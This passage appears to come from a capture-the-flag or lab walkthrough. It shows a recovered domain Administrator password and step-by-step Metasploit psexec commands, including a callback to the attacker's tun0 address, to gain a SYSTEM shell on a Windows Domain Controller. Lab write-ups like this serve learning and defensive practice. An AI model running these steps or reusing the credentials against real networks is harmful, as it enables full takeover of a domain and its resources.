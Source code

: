 Credentials are:

```
Administrator:Ticketmaster1968
```

### Metasploit

Time to log in as **Administrator**. 

We have admin's password, so we can use **Impacket**’s **psexec.py** to get a **system shell** on the **Domain Controler**.

Gaining **system shell** access on a **Domain Controller** means taking full control of the server with the highest level of privileges, we will have complete access to the entire domain and all resources managed by it. This is the most **critical** level of access anyone can achieve within a `Windows` network.

For me the fastest and most pleasant way was to do it with **Metasploit**.

In order:

```
msfconsole
```

```
use exploit/windows/smb/psexec
```

```
set rhost {target ip}
```

```
set lhost {yout tun0 ip}
```

```
set smbuser Administrator
```

```
set smbpass Ticketmaster1968
```

When all of the above is set, type `run` and press `Enter`.

![PE](./Screenshots/activepe8.png)
